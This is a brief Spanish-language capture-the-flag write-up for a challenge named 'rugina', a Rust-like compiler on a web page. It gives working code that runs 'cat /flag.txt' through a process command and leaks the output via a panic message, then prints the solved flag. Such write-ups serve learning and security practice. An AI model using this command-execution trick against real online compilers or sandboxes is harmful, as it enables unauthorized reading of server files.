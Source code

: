 # rugina

Tenemos un compilador de "rugina", un lenguaje similar a Rust.

A medida que escribimos el compilador nos corrige si hacemos algo "Rust like" pero que no es valido en rugina. No se puede declarar una funcion normalmente, sino que es asi:
`func() {}` y no se puede usar `println!`.

Ademas aunque el codigo sea correcto y logres imprimir algo no se muestra. La pagina solo te permite visualizar los mensajes del compilador. Pero puedes usar `panic!` para forzar a que el compilador te devuelva el mensaje que deseas:

```
use std::process::Command;
principal() {
  let output = Command::new("cat").arg("/flag.txt")
              .output()
              .expect("Failed to execute command");
 let cmdout = String::from_utf8_lossy(&output.stdout);
 panic!("{}",cmdout)
}
```

<img width="1108" height="297" alt="2025-09-15-085408_1108x297_scrot" src="https://github.com/user-attachments/assets/7b5251d7-2433-4ddf-8760-9540300ca942" />

`ctf{73523e676b04e1c2db176d8035648893648b969f5ddf5ac40f8fc5b6c15d8692}`

